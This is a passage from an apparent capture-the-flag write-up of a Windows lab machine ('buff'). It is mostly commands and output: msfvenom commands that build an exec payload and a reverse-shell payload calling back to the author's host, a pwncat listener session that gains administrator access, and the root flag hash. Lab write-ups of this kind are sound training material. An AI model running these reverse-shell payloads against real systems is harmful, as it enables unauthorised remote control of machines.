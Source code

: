 I had no luck with the previous payload so I tried others:

```
msfvenom -p windows/exec CMD='copy C:\users\Administrator\desktop\root.txt C:\users\shaun\Videos\noraj.txt' -b '\x00\x0A\x0D' -f python -v payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.188 LPORT=9999 -b '\x00\x0A\x0D' -f python -v payload
```

I had more luck with `windows/shell_reverse_tcp` but it was just service being unstable.
It's possible the 1st exploit tentative made the service partially crash.

```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.198:49704 (family 2/IPv4, TCP)
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
buff\administrator

C:\Windows\system32>type c:\users\Administrator\desktop\root.txt
ccf880bd191ba6b99c413b3855a8bb6d
```

[nmap]:https://inventory.raw.pm/tools.html#Nmap
[ffuf]:https://inventory.raw.pm/tools.html#ffuf
